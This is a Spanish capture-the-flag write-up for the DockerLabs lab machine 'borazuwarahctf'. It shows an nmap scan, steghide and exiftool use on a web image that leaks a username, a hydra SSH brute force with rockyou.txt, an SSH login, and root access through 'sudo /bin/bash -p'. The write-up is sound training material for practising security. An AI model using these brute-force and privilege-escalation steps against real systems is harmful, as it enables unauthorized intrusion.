


# borazuwarahctf

Maquina borazuwarahctf de [DockerLabs](https://dockerlabs.es)

Dificultad: Muy Fácil

Autor: [BorazuwarahCTF](https://github.com/borazuwarah/)



## RECONOCIMIENTO

Comenzamos con un escaneo de nmap:

```css
nmap -sVC 172.17.0.2
```

```css
Nmap scan report for 172.17.0.2
Host is up (0.00054s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
|_  256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.59 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.00 seconds
```

No vemos nada interesante por lo que continuaremos desde el navegador. Al entrar se ve una imagen de un huevo kinder y al hacer un poco de fuzzing no encontramos nada, por lo que sospecho que trata de `Esteganografía`, lo que significa que puede haber archivos escondidos dentro de la imagen. Para hacerlo nos descargamos la imagen y ejecutamos el siguiente comando:

```css
steghide extract -sf imagen.jpeg
```

nos pide un salvoconducto pero como no lo tenemos le damos al enter y nos extrae un archivo llamado "secret.txt", lo leemos y nos dice que no esta ahi la solución pero _si esta en la imagen_, sabiendo esto podemos usar `exiftool`, para hacerlo ejecutamos:

```css
exiftool imagen.jpeg
```

```ruby
ExifTool Version Number         : 12.57
File Name                       : imagen.jpeg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2024:08:19 15:39:19-03:00
File Access Date/Time           : 2024:08:19 15:39:19-03:00
File Inode Change Date/Time     : 2024:08:19 15:39:37-03:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: borazuwarah ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207
```

Como vemos, ahora si encontramos la solucion pero a medias, ya que nos da un usuario llamado "borazuwarah" pero no la contraseña, por lo que recurriremos a usar hydra, para hacerlo ejecutamos el siguiente comando:

```css
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

```abap
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
```

Como vemos, nos encuentra la contraseña para el usuario "borazuwarah" que es "123456".

## INTRUSION

Ahora simplemente nos conectamos al ssh con:

```css
ssh borazuwarah@172.17.0.2
```

y ponemos la contraseña.

Ya estamos dentro.

## ESCALADA DE PRIVILEGIOS

Ejecutamos `sudo -l` para ver si podemos ejecutar algo como root, y vemos que el binario bash si se puede, por lo que simplemente ponemos:

```abap
 sudo /bin/bash -p
```

Y listo, _SOMOS ROOT_.



Gracias por leer.
